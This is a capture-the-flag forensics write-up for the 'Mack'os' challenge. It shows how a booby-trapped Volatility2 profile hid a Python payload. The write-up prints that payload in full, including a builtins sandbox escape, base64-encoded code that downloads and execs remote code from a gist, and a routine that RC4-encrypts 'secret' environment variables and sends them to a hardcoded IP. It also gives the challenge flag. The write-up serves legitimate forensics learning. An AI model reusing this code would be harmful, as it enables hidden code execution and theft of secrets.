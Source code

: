 ```yaml
---
layout: Post
format: chall
title: Mack'os
date: 2024-04-27
ctf: MidnightFlag Qualifiers
tags: [volatility, PCAP]
category: [Forensics]
---
```

# Mack'os

<a class="back-link" href="../../">< Go back</a>

## Description

R : La forensique mémoire avec Volatility2 est ma grande passion, et ce depuis sa sortie en août 2006 ! Récemment, j'ai même participé à un concours d'analyse mémoire sur un chat IRC assez rétro. Même si j'ai eu quelques difficultés à trouver le bon profil à utiliser, un utilisateur nommé "jonas_kahnwald44" a pu m'en fournir un fonctionnel. Maintenant que j'en parle, j'ai remarqué un message inattendu lors de l'exécution de Volatility2 avec ce profil. Pourriez-vous jeter un oeil à cette capture réseau réalisée sur mon serveur d'analyse ?

EN : Memory forensics with Volatility2 has been my great passion since its release in August 2006! Recently, I even participated in a memory analysis contest on a rather retro IRC chat. Although I had some difficulties finding the right profile to use, a user named "jonas_kahnwald44" was able to provide me with a functional one. Now that I mention it, I noticed an unexpected message while running Volatility2 with this profile. Could you take a look at this network capture made on my analysis server?

Author: Abyss Watcher

all files in [resources/](./resources) were provided.

## Challenge

Looking at the network logs from [Mackos.pcap](resources/Mackos.pcap) we see volatility logs in `tcp.stream eq 0` at the end we see some sort of IRC chat logs

```
analyst@forensic_server:~$ cp file_server/good_profile.zip volatility/volatility/plugins/overlays/mac/

analyst@forensic_server:~$ python2 volatility/vol.py -f evidences/mac_dump.raw --profile Macgood_profilex64 mac_version

<c_dump.raw --profile Macgood_profilex64 mac_version
Volatility Foundation Volatility Framework 2.6.1
hello fellow analyst ! just checking a few things do not mind :)
Darwin Kernel Version 13.2.0: Thu Apr 17 23:03:13 PDT 2014; root:xnu-2422.100.13~1/RELEASE_X86_64
analyst@forensic_server:~$
```

The other person executed a python2 script, we can download [good_profile.zip](good_profile.zip) to view what happened, unzipping it and looking at [dwarf.txt.conv.vtypes](dwarf.txt.conv.vtypes) we see:

```python
'custom_element': [0x2, [[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('echo "hello fellow analyst ! just checking a few things do not mind :)" && python2 -c \\'import base64; exec(base64.b64decode("IyEvdXN...Q5NSkpCg=="))\\'')]],
```

We can decode this huge base64 into another python2 program:

```py

# _=((()>[])+(()>[]));
# __=(((_<<_)<<_)*_);
# ___=('c%'[::  ... very long ...  )>[]))))))

# Deciphered:

_=2
__=64
___="https://gist.github.com/hsauers5/491f9dde975f1eaa97103427eda50071/raw/a8f66f1f9e77b2db28bab1328db274f05722b535/rc4.py"

m = types.ModuleType('')
exec(urlopen(___).read().decode('utf-8'), m.__dict__)
k = '%d' % int(time.time())
enc = m.encrypt(
  str(
    [{a:b} for a,b in os.environ.items() if a.lower().startswith('secret')]
  ),
  k
)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(enc, ('83.84.179.243', 16495))

```

This program steals the users "secret" environment variables trough an websocket, they get encrypted trough the rc4 algorithm (from the gist) and the secret key which is the current timestamp.

Inside wireshark we find the encrypted text that was exfiltrated:

```
0X570X6A0XC50X5F0XDE0XC60X2D0XED0X7A0XF0XD90X850XBD0XC40X2A0XD60XE00X6E0X8A0XCC0X660XDB0XDE0X570X430XD20XB10X700XAC0X200X4A0XE30X4E0X620X5B0XBD0XF60X140XDD0X900XD50X2E0XF00XF90X260X6D0X490X830XAB0X310XAA0X3A0XD10X2A0X490X850X5E0X900XCE0X530X3B0XF40X480XAD0X640X540X550X330X530XF70X6A0XB80XE7
```

We can start by downloading the gist ourselves and trying to find the timestamp used for the key, to do that we can enamble UTC timestamps in wireshark and grab a large range of times, we can quickly bruteforce a batch.

```py
key = 1708172370
    while True:
        result = decrypt(ciphertext, str(key))
        # if key > 1708173370:
        #     break
        if 'secret' in result:
            print(result)
            break
        key += 1
# [{'secret_technique': '  MCTF{my_secret_f0rens1c_tool_is_ripgrep!.!.!}'}]
```
